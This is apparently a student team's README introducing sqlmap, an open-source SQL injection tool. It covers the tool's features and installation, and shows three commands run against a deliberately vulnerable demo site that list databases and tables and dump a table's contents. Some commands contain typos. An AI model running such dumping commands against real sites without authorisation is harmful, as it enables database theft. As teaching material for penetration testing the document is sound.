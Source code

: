 
# SQLMAP - Database penetration

# Project name
  - Sqlmap - Database Penetration

# Technologies
- Sqlmap

# What is Sqlmap ?

Sqlmap is an open-source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester and a broad range of switches lasting from database fingerprinting, over data fetching from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections.

# Features of Sqlmap

* supports for six SQL injection techiques: boolean-based blind, time-based blind, error-based, UNION query-based, stacked queries and out-of-band.
* supports  more than 35 DBMS.
* Supports to directly connect to database without passing via a SQL injection, by providing DBMS credentials, IP address, port and database name.
* Automatic recognition of password hash formats and support for cracking them using a dictionary-based attack.
* Support to dump database tables entirely, a range of entries or specific columns as per user's choice.
* Support to search for specific database names, specific tables across all databases or specific columns across all databases' tables.
* Support to download and upload any file from the database server underlying file system and Support to execute arbitrary commands and retrieve their standard output on the database server underlying operating system when the database software is MySQL, PostgreSQL or Microsoft SQL Server.


# Install SQLmap
  - First step is to get a Linux based Operating System
  ***
  If you are going to run SQLmap on Windows with Python, make sure you have Python installed, and skip down to the next step. Otherwise, get your Linux system fired up. Either install a Linux virtual machine (Ubuntu or Kali recommended) on Windows (Virtualbox / VMware / Parrallels) or boot up your Linux desktop.

* Second step is installation
  ***
  Python is pre-installed in Ubuntu, so all you need to do is clone the latest repository from git and start your testing.

```
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev

```

# Usage example of SQLmap

1. Attack the given URL (-u “http://testphp.vulnweb.com/”) and extract the database names (–dbs):

```
sqlmap > -u http://testphp.vulnweb.com/artists.php?artist=5 --batch --random -agent --dbs

```
![](images/1.PNG)

2. To reach the tables of available databases use following code ( Ofcourse URL changes according to website).
```
sqlmap > -u http://testphp.vulnweb.com/artists.php?artist=5 --batch --random -agent --dbs -D acuart --tables

```
![](images/2.PNG)

3. Use the code below to show information inside the tables.

```
sqlmap > -u http://testphp.vulnweb.com/artists.php?artist=5 --batch --random -agent --dbs -D acuart -T artists , categ --dump

```

![](images/3.PNG)

# Team Members
* Tarek Shihab
* Aiman Najib Ahmed Abdo
* Zehra Küçükaltun

***

# references

* https://sqlmap.org/
* http://testphp.vulnweb.com/


# License

* [GNU General Public License](http://www.gnu.org/licenses/old-licenses/gpl-2.0.html)
